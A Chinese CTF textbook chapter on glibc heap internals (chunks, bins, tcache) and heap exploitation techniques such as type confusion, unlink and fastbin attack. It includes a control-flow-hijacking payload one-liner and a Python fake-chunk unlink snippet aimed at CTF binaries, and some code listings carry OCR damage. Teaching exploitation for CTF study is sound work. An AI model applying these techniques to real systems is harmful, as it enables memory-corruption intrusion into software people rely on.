

???+ abstract "本章摘要"
    本章基于 Linux 的 ptmalloc2-glibc 堆块管理机制，系统讲解堆的基本数据结构（chunk、bin、malloc/free 规则、tcache），梳理七类堆漏洞（结构体混淆、堆溢出、Off By One、UAF、Double Free）与十余种利用方法（unlink、fastbin attack、forgotten chunk、house of force/spirit/orange、FSOP、堆喷射、堆地址碰撞），最后以 note1、note2、oreo、Shaxian、freenote x86/x64、house of orange 七道真题完整演示堆利用链。
## 章节导航

上一篇：第12章 栈漏洞利用
下一篇：第14章 PWN常见题型
回到目录：[00-目录](00-目录.md)

## 第13章 堆相关漏洞

### 13.1 堆介绍

???+ note "定义：堆"
    ==堆（Heap）==主要指用户动态申请的内存（调用 malloc、alloc、alloca、new 等函数获得）。CTF 中有关堆的 PWN 题大多基于 Linux 的 ptmalloc2-glibc 堆块管理机制。
堆（Heap）主要是指用户动态申请的内存（如调用malloc、alloc、alloca、new等函数），CTF比赛中有关堆的PWN题大多是基于Linux的ptmalloc2-glibc堆块管理机制的。本章的内容也主要以此为前提，若想了解更多PWN题型，读者可自行拓展。

本章只是对CTF赛题中常用的堆结构做了简单介绍，以方便读者入门，更多关于堆块的介绍，网上很多资料讲得非常详细，如 https://sploitfun.wordpress.com/2015/02/10/understanding_glibc-malloc/，读者可自行查阅。

???+ note "定义：三种堆块数据结构"
    glibc malloc 源码中有三种最基本的堆块数据结构：heap_info、malloc_state、malloc_chunk。
glibc malloc源码中有三种最基本的堆块数据结构，分别为

heap_info、malloc_state、malloc_chunk，为了使问题简单化，这里

着重介绍单线程的malloc_chunk，因为CTF比赛中关于堆的题目，绝大

多数是考察这方面的内容，另外在对堆块熟悉之后，再去了解其他部

分会更容易理解。

#### 13.1.1 堆基本数据结构chunk

在glibc中，chunk是内存分配的基本单位，可分为allocated chunk、free chunk、top chunk、last remainder chunk四种。第四种用得比较少，这里着重介绍前三种。malloc_chunk的数据结构如下：

```c
struct malloc_chunk {
    INTERNAL_SIZE_T prev_size; /* Size of previous chunk (if free). */
    INTERNAL_SIZE_T size; /* Size in bytes, including overhead. */
    struct malloc_chunk* fd; /* double links -- used only if free. */
    struct malloc_chunk* bk;
/* Only used for large blocks: pointer to next larger size. */
    struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
    struct malloc_chunk* bk_nextsize;
};
```

chunk总结结构示意如图13-1所示。

{ width="100%" }


<div style="text-align: center;">图13-1 chunk总结构示意图</div>


在内存中，堆块的对齐规则具体如下。

- 32位系统中，按0x8字节对齐，chunk最小为0x10字节。
- 64位系统中，按0x10字节对齐，chunk最小为0x20字节。

关于对齐方式，举个简单例子。在64位系统下，用

malloc（size）申请时，size取值在0x69~0x78之间，堆块大小都是

0x80，具体机制可参见malloc.c源码，也可参见allocated chunk中的图

（这里指图13-2）。

1）allocated chunk: 已分配（使用）的堆块，其中该块的fd、bk域以及下一堆块的pre_size域都属于数据区，如图13-2所示。将下一堆块size域中的p标志位置为1。

{ width="100%" }


<div style="text-align: center;">图13-2 allocated chunk结构示意图</div>

2）free chunk：空闲的堆块，其中的fd、bk属于链表指针，有特定的含义（后面会有详细介绍），下一堆块的pre_size为当前释放块的大小（含头部信息），如图13-3所示。下一堆块size域中的p标志位通常会被设置为0（存在例外，如fast bin等）。

3）top chunk：空闲块，该块位于前两种堆块之后，其堆头结构与allocated块的结构类似，重要的是pre_size域和size域。

{ width="100%" }

<div style="text-align: center;">图13-3 free chunk结构示意图</div>


关于size域中的标志位N、M、P，在图13-1中已经说明了其作用，具体定义如下。

- N位：#define NON_MAIN_ARENA 0x4。用于表示是否属于主线程，0表示主线程的堆块结构，1表示子线程的堆块结构。
- M位：#define IS_MMAPPED 0x2。用于表示是否由mmap分配，0表示由堆块中的top chunk分裂产生，1表示由mmap分配。
- P位：#define PREV_INUSE 0x1。用于表示上一堆块是否处于空闲状态，0表示处于空闲状态，1表示处于使用状态（被分配），此位主要用来在判断free时是否能与上一堆块进行合并。不过，也存在例外情况，如fastbin，为了满足快速分配小内存的需求，通常fastbin中的p位保持为1，不参与合并。

???+ tip "本节要点"
    1. chunk 是内存分配的基本单位，有 allocated/free/top/last remainder 四种，重点掌握前三种；
    2. malloc_chunk 的头部由 prev_size、size、fd、bk（large block 另有 fd_nextsize、bk_nextsize）组成；
    3. 对齐规则：32 位按 0x8 对齐、最小 0x10；64 位按 0x10 对齐、最小 0x20；
    4. size 域低 3 位是标志位：N（是否主线程 0x4）、M（是否 mmap 0x2）、P（前一堆块是否在用 0x1）。
#### 13.1.2 堆空闲块管理结构bin

当allocated chunk被释放后，会放入bin或者合并到top chunk中去。bin的主要作用是加快分配速度，其通过链表方式（chunk结构体中的fd和bk指针）进行管理。

### 1. fast bin

fast bin中包含一维指针数组头，用于管理小堆块。在64位系统中，保存的堆块大小在0x20~0x80之间；在32位系统中，其大小区间为0x10~0x40（x86），该区间两边的值都包含在内。fast bin按单链表结构进行组织，用fd指针指向下一堆块，采用LIFO（Last In First Out）机制。在fast bin中，堆块的p标志位都为1，处于占用状态，以防止释放时对fast bin进行合并，用于快速分配小内存。

### 2. 其他bin

其他bin包含一维指针数组头，其按双链表结构进行组织，采用FIFO（First In First Out）机制，不同大小的堆块，通常链接在不同的指针数组里面，具体说明如下。

- bin1：unsorted bin。主要用于存放刚释放的堆块以及大堆块分配后剩余的堆块，大小没有限制。
- bin2~bin63：small bin。主要用于保存在0x10~0x400（x86，对x64是0x20~0x800）区间的堆块，同一条链表中堆块的大小相同，如x86下bin2对应于0x10，bin3对应于0x18……
- bin64~bin126：large bin。主要用来存放大小大于0x400（x86，对x64是0x800）的堆块，同一条链表中堆块的大小不一定相同，在一定范围内，按照从小到大的顺序进行排列。

了解这些基本的数据结构信息，对于堆块入门已经足够了，关于堆块的其他更多内容，读者可自行查阅资料或者查看glibc源码进行补充。

??? note "fast bin 与「其他 bin」的本质区别？"
    ==fast bin 是单链表 + LIFO==，且其中的堆块 p 标志位保持为 1、不参与合并，用于快速分配小内存；而 unsorted/small/large bin 是双链表 + FIFO，其中 small bin 同一条链表堆块大小相同、large bin 允许大小不同但按从小到大排列。
#### 13.1.3 malloc基本规则

malloc的规则可以对照malloc的源码中的_int_malloc函数来查看，这里主要介绍最基本的情况。最开始glibc所管理的内存空间是用brk系统调用产生的内存空间，如果malloc申请的空间太大，超过了现有的空闲内存，则会调用brk或mmap继续产生内存空间。

对于malloc申请一般大小（不超过现有空闲内存大小）的内存，其简化版流程（更详细的内容可参考malloc源码）如下。

首先将size按照一定规则对齐，得到最终要分配的大小

size_real，具体如下（本块的pre_size和下一块的pre_size刚好抵消）。

- x86：size+4按照0x10字节对齐。
- x64：size+8按照0x20字节对齐。

1）检查size_real是否符合fast bin的大小，若是则查看fast bin中对应size_real的那条链表中是否存在堆块，若是则分配返回，否则进入第2步。

2）检查 $ \underline{\text{size}} $ real是否符合small bin的大小，若是则查看small bin中对应 $ \underline{\text{size}} $ real的那条链表中是否存在堆块，若是则分配返回，否则进入第3步。

3）检查 $ \underline{\text{size}} $____是否符合large bin的大小，若是则调用

malloc_consolidate函数对fast bin中所有的堆块进行合并，其过程为将fast bin中的堆块取出，清除下一块的p标志位并进行堆块合并，将最终的堆块放入unsorted bin。然后在small bin和large bin中找到适合size_real大小的块。若找到则分配，并将多余的部分放入

unsorted bin，否则进入第4步。

4）检查top chunk的大小是否符合size_real的大小，若是则分配前面一部分，并重新设置top chunk，否则调用malloc_consolidate函数对fast bin中的所有堆块进行合并，若依然不够，则借助系统调用来开辟新空间进行分配，若还是无法满足，则在最后返回失败。

这里面值得注意的点如下。

1）fast bin的分配规则是LIFO。

2）malloc_consolidate函数调用的时机：它在合并时会检查前后的块是否已经释放，并触发unlink。

#### 13.1.4 free基本规则

堆块在释放时会有一系列的检查，可以与源码进行对照。在这里，将对一些关键的地方进行说明。为了使说明看起来简洁一些，就不展示源码了。

1）释放（free）时首先会检查地址是否对齐，并根据size找到下一块的位置，检查其p标志位是否置为1。

2）检查释放块的size是否符合fast bin的大小区间，若是则直接放入fast bin，并保持下一堆块中的p标志位为1不变（这样可以避免在前后块释放时进行堆块合并，以方便快速分配小内存），否则进入第3步。

3）若本堆块size域中的p标志位为0（前一堆块处于释放状态），则利用本块的pre_size找到前一堆块的开头，将其从bin链表中摘除（unlink），并合并这两个块，得到新的释放块。

4）根据size找到下一堆块，如果是top chunk，则直接合并到top chunk中去，直接返回。否则检查后一堆块是否处于释放状态（通过检查下一堆块的下一堆块的p标志位是否为0）。将其从bin链表中摘除（unlink），并合并这两块，得到新的释放块。

5）将上述合并得到的最终堆块放入unsorted bin中去。

这里有以下几个值得注意的点：

1）合并时无论向前向后都只合并相邻的堆块，不再往更前或者更后继续合并。

2）释放检查时，p标志位很重要，大小属于fast bin的堆块在释放时不进行合并，会直接被放进fast bin中。在malloc_consolidate时会清除fast bin中所对应的堆块下一块的p标志位，方便对其进行合并。

最基本的unlink定义如下：

```c
#define unlink(P, BK, FD) {
    FD = P->fd;
    BK = P->bk;
    FD->bk = BK;
    BK->fd = FD;
}
```

上述代码直接进行了如下赋值：

```c
*(fd + 24) = bk
*(bk + 16) = fd
```

新式的unlink中加入了更多的限制条件，具体参见unlink的利用方法。

???+ tip "本节要点"
    1. malloc 先按平台规则对齐得到 size_real（x86=size+4 按 0x10 对齐、x64=size+8 按 0x20 对齐）；
    2. 分配顺序：fast bin → small bin → large bin（触发 malloc_consolidate）→ top chunk → 系统调用；
    3. free 时按「fast bin 直接入链（p 保持 1）→ 前向合并 → 后向/合并入 top → unsorted bin」顺序检查；
    4. 合并只针对相邻堆块、且绝不合并 fast bin（其 p 恒为 1），unlink 是最基本的摘链操作。
#### 13.1.5 tcache

tcache是libc2.26之后引进的一种新机制，广泛应用于18.04之后的系统，其管理方式类似于fast bin，每条链上最多可以有7个chunk，只有tcache满了以后，chunk才会被放回其他链表，而在进行malloc操作时，tcache会被首先分配。

### 1. tcache的管理结构

tcache的两个重要结构体为tcache_entry和tcache_pertheread_struct，具体如下。

tcache entry结构体：

```c
typedef struct tcache_entry
{
    struct tcache_entry *next;
} tcache_entry;
```

tcache_pertheread_struct结构体：

```c
typedef struct tcache_perthread_struct
{
    char counts[TCACHE_MAX_BINS];
    tcache_entry *entries[TCACHE_MAX_BINS];
} tcache_perthread_struct;
```

初始化的管理指针：

```c
static __thread tcache_perthread_struct *tcache = NULL;
```

其中TCACHE_MAX_BINS默认值为64，堆空间起始部分都会有一块先于用户申请分配的堆空间，大小为0x250。

### 2. tcache的管理函数

tcache的两个重要的管理函数为tcache_get()和tcache_put()，分别用于获取tcache和释放tcache，代码具体如下。

获取tcache的代码如下：

```c
static void *
tcache_get (size_t tc_idx)
{
    tcache_entry *e = tcache->entries[tc_idx];
    assert (tc_idx < TCACHE_MAX_BINS);
    assert (tcache->entries[tc_idx] > 0);
    tcache->entries[tc_idx] = e->next;
    -- (tcache->counts[tc_idx]);
    return (void *)e;
}
```

释放tcache的代码如下：

```c
static void tcache_put (mchunkptr chunk, size_t tc_idx) {

tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
assert (tc_idx < TCACHE_MAX_BINS);
e->next = tcache->entries[tc_idx];
tcache->entries[tc_idx] = e;
++(tcache->counts[tc_idx]);
}
```

tcache的主要作用是提高堆的使用效率，上述两个函数会在堆函数_int_free和__libc_malloc的开头被调用，对于tcache，需要了解如下几个关键点。

1）tcache的管理是单链表，采用LIFO原则。

2）tcache的管理结构存在于堆中，默认有64个entry，每个entry最多存放7个chunk。

3）tcache的next指针指向chunk的数据区（与fast bin不同，fast bin指向chunk头）。

4）tcache的某个entry被占满以后，符合该entry大小的chunk被free后的规则和原有机制相同（未使用tcache时）。

对于tcache的利用，大多较为简单，因为没有太多的安全检查机制。需要注意的是，在libc2.29之后，加入了对tcache的double free 的检测，管理结构代码如下：

```c
typedef struct tcache_entry {

struct tcache_entry *next;
/* This field exists to detect double frees. */
struct tcache_perthread_struct *key;
} tcache_entry;
```

每次释放时都会检查该chunk是否已经存放在tcache中，代码如下：

```c
if (__glibc_unlikely (e->key == tcache))
{
    tcache_entry *tmp;
    LIBC_PROBE (memory_tcache_double_free, 2, e, tc_idx);
    for (tmp = tcache->entries[tc_idx];
        tmp;
    tmp = tmp->next)
    if (tmp == e)
    malloc_printerr ("free(): double free detected in
tcache 2");
/* If we get here, it was a coincidence. We've
wasted a
few cycles, but don't abort. */
}
```

一般来说，可以参考原有的堆利用方式利用tcache，由于大部分都是通过变异而来的，因此具体利用方式在此不再赘述。往年经典例题如下：

1) 2018-hitcon-babytache.
2) 2018-hitcon-chridrentache.
3) 2018-bctf-house of atum.

???+ tip "本节要点"
    1. tcache 是 libc 2.26 引入、18.04 之后系统的快分配机制，每条链最多 7 个 chunk，malloc 时优先从 tcache 分配；
    2. tcache 也是单链表 + LIFO，但其 next 指向 chunk 数据区（区别于 fast bin 指向 chunk 头）；
    3. tcache 安全校验极少、利用简单，但 libc 2.29 起加入了对 double free 的 key 检测；
    4. tcache 满后 chunk 才回退到 fast bin/small bin 等原有机制。
### 13.2 漏洞类型

关于堆的漏洞及其利用方法有很多，随着对glibc的修补，很多以前的方法很难继续使用，如Phantasmal Phantasmagoria发表的文章“The Maxloc Maleficarum-Glibc Maxloc Exploitation Techniques”中的The House of Prime、The House of Mind、The House of Lore等，在这里仅是介绍目前能用的一些方法，其他可以作为扩展自行了解。

### 1. 最基本的堆漏洞

最基本的堆漏洞主要是指由于对堆内容的类型判断不明而形成的错误引用。现在的比赛中很少（几乎不会）直接出现这类问题，大部分需要将复杂的堆问题转化成这种情况。基本堆漏洞对于理解堆的使用很有帮助。

通常情况下，可以使用堆块来存储复杂的结构体，其中可能会包括函数指针、变量、数组等成员。如果一个结构体的数据按照其他结构体格式来解析，那么只要在特定的域布置好数据，就会导致漏洞的发生。示意如图13-4所示。

???+ note "定义：结构体混淆（类型混淆）"
    ==结构体混淆==指堆块上的数据被错误地按另一种结构体的格式去解析，从而让原本的 data 区域被当作函数指针/数据指针来解释，只要在特定域布置好数据即可触发漏洞。
结合图13-4可知，如果struct_A类型的对象解析成了struct_B，那么存储在content中的数据就会被解析成info、func_ptr、

data_ptr、address。而func_ptr是函数指针，如果发生调用，那么控制流就会被输入的数据劫持，转向所构造的content里面的地址中。而data_ptr是数据指针，如果发生对该数据指针的访问，若能够读取，就能发送信息泄露，如果能够写入，就能实现数据的改写。

{ width="100%" }


<div style="text-align: center;">图13-4 结构体混淆示意图</div>


### 2. 堆缓冲区溢出

## （1） 常规堆溢出

堆缓冲区溢出与栈缓冲区溢出类似，是指在堆上的缓冲区被填入了过多的数据，超出了边界，导致堆中原有的数据被覆盖。通常可分为两种情况，具体如下。

1）覆盖本堆块内部数据，通常是发生在结构体中，如果结构体中的数组溢出，则覆盖后续变量。

2）覆盖后续堆块数据，这不仅影响了后续堆块中的数据，也破坏了堆块的结构。

这两种情况都有相应的利用方式。这两种情况的示意分别如图13-5和图13-6所示。

{ width="100%" }


<div style="text-align: center;">图13-5 堆块内部溢出覆盖情况</div>

{ width="100%" }


<div style="text-align: center;">图13-6 堆块间溢出覆盖情况</div>


对于第一种情况，可类比最基本的堆漏洞来看，或者对照栈缓冲区溢出的利用方式，没有太多技巧性的知识，可能需要根据程序逻辑来进行构造。

对于第二种情况，如果是根据覆盖后续堆块中的数据部分来利用的，那么与第一种情况类似；如果是根据破坏了后续堆块的堆结构信

息来利用的，那么可根据13.3节中介绍的方法来进行利用。

## (2) Off By One

在堆缓冲区溢出中，有一种比较特殊的情况，只能溢出1字节，称为Off By One。在CTF赛题中，这种情况通常多位于堆块末尾，溢出的1字节恰好能够覆盖下一堆块的size域的最低位，这种漏洞可能比较难利用，但其相关的构造技巧已经成为一种固定的套路，具体请参见13.3.2节中unlink的利用方式。

### 3. Use After Free

Use After Free（UAF）即释放后使用漏洞。若堆指针在释放后未被置空，形成悬挂指针（也称野指针），当下次访问该指针时，依然能够访问到原指针所指向的堆内容，就会形成漏洞。通常，UAF漏洞的利用需要根据具体情况来进行分析，以判断其是否具有信息泄露和信息修改的功能。

### 4. Double Free

Double Free漏洞主要是指对指针存在多次释放的情况，是UAF中较为特殊的一种，针对的是用于释放的函数。多次释放能够使堆块发生重叠，前后申请的堆块可能会指向同一块内存，这种情况下，可将

其转换为最基本的堆问题。另外，还可以构造特殊的堆结构，从而运用针对堆结构的利用方法。

!!! warning "易错点"
    ==Off By One 溢出的是「下一堆块 size 域的最低位」==，而不是本块；该低位恰好对应 P 标志位，这正是它常常被用于伪造「前一堆块已释放」以触发 unlink 合并的原因。
???+ tip "本节要点"
    1. 最基本的堆漏洞 = 类型混淆，让 data 被解析成函数指针/数据指针，从而劫持控制流或读写任意内容；
    2. 堆溢出分两类：覆盖本块内部数据（类比栈溢出）与覆盖后续堆块（可利用堆结构）；
    3. Off By One 只溢出 1 字节，常覆盖下一堆块 size 最低位（即 P 位）；
    4. UAF = 释放后指针未置空形成悬挂指针；Double Free = 对同一指针多次释放，是 UAF 的特殊形态。
### 13.3 利用方法

#### 13.3.1 最基本的堆利用

最基本的堆利用，主要是针对堆的最基本的漏洞及部分缓冲区覆盖的情况进行利用，不涉及堆结构的利用方法。对于堆缓冲区覆盖变量的情况，与栈类似，只需要逻辑判断就能识别出来，在此不再赘述，这里主要针对类型转换来进行说明。

示例代码如下：

```c
#include <stdio.h>
void target_func()
{
    printf("Hacked\n");
}
void show_info_A(char *info)
{
    printf("%s\n", info);
}
struct struct_A
{
    int type;
    int size;
    char A_info[0x20];
    void (*show_info_ptr)(char *);
};
struct struct_B
{
    int type;
    int size;
    char B_info[0x40];
}

void show_info(void *data, int type)
{
    printf("in show_info:%d\n", type);
    if (type == 0)
    {
        printf("in 0\n");
        struct struct_A *struct_A_ptr = (struct struct_A *)data;
        struct_A_ptr->show_info_ptr(struct_A_ptr->A_info);
    }
    else if (type == 1)
    {
        printf("in 1\n");
        struct struct_B *struct_B_ptr = (struct struct_B *)data;
        printf("%s\n", struct_B_ptr->B_info);
    }
}

int main()
{
    struct struct_A * var_a;
    struct struct_B * var_b;
    var_a =malloc(sizeof(struct struct_A));
    var_a->type = 0;
     电子
     strcpy(var_a->A_info, "A_info");
     var_a->show_info_ptr = show_info_A;
    var_a->size = strlen(var_a->A_info);
    var_b =malloc(sizeof(struct struct_B));
    scanf("%d", &var_b->type);
    getchar();
    gets(var_b->B_info);
    var_b->size = strlen(var_b->B_info);
    show_info(var_a, var_a->type);
    show_info(var_b, var_b->type);
}
```

[OCR存疑：上述代码 `var_a->type = 0;` 与 `strcpy(...)` 之间多出的「电子」二字疑为 OCR 噪声。]

在上述示例中，打印函数 $ \text{void show\_info} $（ $ \text{void*data} $,int

type），可根据类型来打印不同的结构体，而结构体 $ \text{struct struct\_B} $

所定义的对象是输入的，所以可以将其类型输入成1，这样就可以在

 $ \text{show\_info} $函数中产生错误的类型识别。对比 $ \text{struct struct\_A} $和

 $ \text{struct struct\_B} $，可以发现 $ \text{struct struct\_A} $中的 $ \text{show\_info\_ptr} $函数

指针正好落在 $ \text{struct struct\_B} $的 $ \text{B\_info} $成员数组里面。如果在 $ \text{B\_info} $

数组成员中布置好数据，就可以按照所布置的函数执行相应的功能，

通过反汇编，进而发现 $ \text{target\_func} $的地址为0x400716，如图13-7所

示。

{ width="100%" }


<div style="text-align: center;">图13-7 函数地址</div>


所以只需要在B_info中填

 $$  入‘a’*0x20+‘\backslash x16\backslash x07\backslash x40\backslash x00\backslash x00\backslash x00\backslash x00’即可。 $$

程序编译命令：

```bash
gcc -o type_trans type_trans.c
```

输入命令：

```bash
python -c "print
'0\n'+'a'*0x20+'\x16\x07\x40\x00\x00\x00\x00' |
./type_trans
```

结果如图13-8所示。可见已经执行了target_func函数。更多内容可参考相关真题解析。

{ width="100%" }


<div style="text-align: center;">图13-8 劫持控制流成功截图</div>

???+ tip "本节要点"
    1. 最基本的堆利用针对类型混淆：让 struct_B 的对象按 struct_A 解析，把 B_info 数组区域布置成目标函数地址即可劫持控制流；
    2. 示例中 struct_A 的 show_info_ptr 恰落在 struct_B 的 B_info 数组内，输入 `'a'*0x20 + '\x16\x07\x40\x00...'` 即可跳转到 0x400716 的 target_func；
    3. 堆缓冲区覆盖变量与栈溢出类似，靠逻辑判断即可，无堆结构技巧。
#### 13.3.2 unlink

目前新式的unlink（也是现有系统所采用的方式）中加入了很多限制，其源码如下：

```c
#define unlink(P, BK, FD) {
\
FD = P->fd;
\
BK = P->bk;
\
if (__builtin_expect (FD->bk != P || BK->fd != P, 0))
malloc_printerr (check_action, "corrupted double-
linked list", P);
else {
FD->bk = BK;
BK->fd = FD;
if (!in_smallbin_range (P->size)
&& __builtin_expect (P->fd_nextsize != NULL,
                          assert (P->fd_nextsize->bk_nextsize == P);
assert (P->bk_nextsize->fd_nextsize == P);
if (FD->fd_nextsize == NULL) {
if (P->fd_nextsize == P)
FD->fd_nextsize = FD->bk_nextsize = FD;
else {
FD->fd_nextsize = P->fd_nextsize;

FD->bk_nextsize = P->bk_nextsize;
P->fd_nextsize->bk_nextsize = FD;
P->bk_nextsize->fd_nextsize = FD;

else {
    P->fd_nextsize->bk_nextsize = P->bk_nextsize;
    P->bk_nextsize->fd_nextsize = P->fd_nextsize;
}
```

其中，最值得注意的是FD->bk!=p||BK->fd!=p，很多利用方式都难以满足这个条件，详情可以查询Advanced Heap Exploitation。目前较为有效的突破手段就是freenote（20150CTF的freenote题目）或stkof（HITCON CTF 2014的stkof题目）的方式。详细内容请参见http://winesap.logdown.com/posts/258859-0ctf-2015-freenode-write-up。

[OCR存疑：「20150CTF」疑为「2015 0CTF」。]

下面介绍freenote的主要利用思路。

freed chunk的双链表结构如下:

```c
FD = p -> fd = * (&p + 2)
BK = p -> bk = * (&p + 3)
```

执行unlink（P, BK, FD）时，需要满足FD->bk==P&&BK->fd==P条件，即：

```c
FD->bk=* ( *(&p + 2) + 3) =* (p[2]+3) == p
BK->fd =* ( *(&p + 3) + 2) =* (p[3]+2) == p
```

=> p[2] = &p - 3, p[3] = &p - 2

然而，存储p指针的位置并不只有freed chunk的前一块和后一块，如果存在一个全局变量G_p，其中存储的指针指向p的话，那么就可以通过设置p[2]&p-3，p[3]&p-2进行伪造，来满足指针的检查。

最终执行：

```c
FD->bk = BK; => p = *(&p+3) = p[3] = &p-2
BK->fd = FD; => p = *(&p+2) = p[2] = &p-3
```

使得：

 $$ \mathrm{~\bf{p}~=~\&p-3~} $$

最后，p指针能够指向全局变量G_p前面3个4字节（x86，如果是x64则为8字节）处。如果G_p是个管理结构，那么就可以实现任意地址

读写了。

构造时，还需要满足free的基本要求。比如，前后chunk的大小，首先得满足free的条件，如图13-9所示。

{ width="100%" }

<div style="text-align: center;">图13-9 满足unlink条件的堆块</div>


通常伪造的堆块，最终达到的效果如图13-10所示。

{ width="100%" }


<div style="text-align: center;">图13-10 unlink成功的效果</div>


这样，就可以通过修改buff_ptr所指向的内容来修改buff_ptr的指针了。

???+ note "定义：unlink 伪链技巧"
    ==unlink 的核心约束==是 `FD->bk==P && BK->fd==P`。通过伪造 `p[2]=&p-3、p[3]=&p-2`，使 unlink 执行后 `p=&p-3`，从而让 p 指针指向某个全局指针（G_p）前面若干字节，实现任意地址读写。
这种情况需要满足的条件如下。

1）存在堆覆盖，可以改写到即将要释放的堆块，将其pre_size改成所构造的堆块大小，将size中的最后一位置为0，如图13-9中所示。

2）存在已知地址的指针（通常为全局变量）指向伪造的堆块头部（通常为buff_ptr处）。

3）能够释放后续堆块来触发unlink。

通常条件3比较容易满足，满足条件1需要存在漏洞，如缓冲区溢出、UAF等都能满足条件。对于条件2来说，存在全局变量是最好的情况，但是如果指向该处的指针存在堆中，也可以通过暴力的方法来实现，具体见后文所列举的实例。

关于伪造堆块部分，可以参考如下代码：

```python
#useful code begin
#node0 addr set
node0_addr = global_offset
bits = 32#64
if bits == 32:
    p_func = 132 #zio
    field_size = 4
else:
    p_func = 164 #zio
    field_size = 8
p0 = p_func(0x0)
p1 = p_func(0x81)
p2 = p_func(node0_addr - 3 * field_size)
p3 = p_func(node0_addr - 2 * field_size)
node1_pre_size = p_func(0x80)
node1_size = p_func(0x80 + 2 * field_size)
data0 = p0 + p1 + p2 + p3 + "".ljust(0x80 - 4 * field_size, '1') + node1_pre_size + node1_size
#edit node 0, over write node 1
edit_note(io, 0, len(data0), data0)
#delete node 1 unlink node 0
delete_note(io, 1)
#useful code end
```

unlink利用方式具体如下。

条件：

```c
p[2] = &p - 3, p[3] = &p - 2
```

效果：

```c
p = &p-3
```

unlink利用实例可参考如下几项。

1）freenote（2015-0CTF-PWN-400）。

2）freenote x86：（XMAN夏令营练习题，见Javios网站）。

3）freenote x64：（XMAN夏令营练习题，见Javios网站）。

4）2017年强网杯note2。

具体请参见13.4.5节和13.4.6节。

???+ tip "本节要点"
    1. 新式 unlink 加入了 `FD->bk!=P || BK->fd!=P` 双向校验，多数利用难以满足；
    2. freenote/stkof 的突破思路：借助一个指向 p 的全局/已知指针 G_p，伪造 `p[2]=&p-3、p[3]=&p-2` 通过校验；
    3. unlink 后 `p=&p-3`，p 指向 G_p 前面 3 个 4 字节（x64 为 8 字节）处，可任意地址读写；
    4. 需满足三个条件：可覆盖待释放堆块（pre_size+size 最低位）、存在指向伪造堆块头的已知地址指针、能释放后续堆块触发 unlink。
#### 13.3.3 fastbin attack

fastbin的利用方法主要是针对fastbin的使用和释放机制。通常对fastbin的间接利用比较多，方法也比较灵活，需要根据具体需求来设定，如利用fastbin更容易满足free的需求，防止程序崩溃。直接利用fastbin的方法主要是针对fastbin的单链表结构，更改其后续指针，控制fastbin在下次所要分配的堆块，如图13-11所示。

{ width="100%" }


<div style="text-align: center;">图13-11 fastbin attack的堆块示意图</div>

在构造时，需要注意的是，fake fastbin中的size需要与改写指针的fastbin块大小一致，且fake fastbin的下一个chunk的size域中的最后一位为1。

针对这种方法来利用fastbin，需要满足以下条件。

1）存在uaf漏洞或者缓冲区溢出漏洞，能够改写已经释放的堆块的fd域，如图13-12所示的阴影部分fd。

2）对于目标地址target_addr处，需要对size域和后一块的size域的最后一位进行设置，如图13-12中的阴影部分size，很有可能这两个位置不可访问，但是通过某些条件可以访问。

满足上述条件，也就是满足图13-12中所示的阴影部分的要求即可。

利用方式具体如下。

- 条件：size符合fastbin chunk大小的条件，修改fd为目标地址，该地址处的size也符合条件。
- 效果：第二次分配时，目标内存被分配。

{ width="100%" }


<div style="text-align: center;">图13-12 满足fastbin attack条件的堆块</div>


利用实例具体如下。

1）Oreo（2014-PCTF-PWN-400）。

2）Shaxian（2015-RCTF-PWN-400）。

具体示例可参考13.4.3节和13.4.4节。

!!! warning "易错点"
    ==fastbin attack 的 fake chunk== 不仅要 size 与对应 fastbin 大小一致，还要求「fake 的下一个 chunk 的 size 域最后一位为 1」，否则分配校验会失败。
#### 13.3.4 forgotten chunk

forgotten chunk主要是指chunk的申请释放中被遗忘的部分，虽然堆块的申请和释放逻辑相对来说比较完善，但是检查还不是太完善。有关forgotten chunk的内容非常多，更为详细的内容可参考http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf，这里将详细讨论forgotten chunk的构造技巧。

本节中仅介绍一些最基本且常用的方法，方便读者对这种方法有个比较客观的认识，至于更多技巧，则需要读者自己实践。

比较简单的情况是，从前往后释放，构造出残留堆块。这里列举一个简单的示例：如图13-13所示，其中存在堆缓冲区溢出（或者直接改写特定域即可），然后通过正常的申请释放，构造出重叠的堆块。

对于三块已使用的堆块（allocated chunk），在大小方面没有要求，其中，ptr0所指向的data0存在溢出，且能够覆盖到堆块1的size域（或者没有堆溢出，而是直接改写堆块1的size域也能达到同样的目的），如图13-13中阴影部分所示。在填入data0时，将堆块1的size域中的部分填写成size1+size2的值（该域中的NMP位保持不变，图13-13中所示的未知堆块部分可有可无，不会影响结果）。

{ width="100%" }


<div style="text-align: center;">图13-13 重叠堆块示意图</div>


然后对堆块1进行释放（通过ptr1指针），这样是可以通过检查的，并且将堆块1和堆块2识别成一个堆块进行处理。因为检查时size域为size1+size2，且堆块是属于allocated chunk的，所以后续的pre_size域会被当成数据部分来处理，不起标识作用，使得检查能够正常通过。释放后，堆块如图13-14所示。

{ width="100%" }

<div style="text-align: center;">图13-14 释放后的堆块示意图</div>


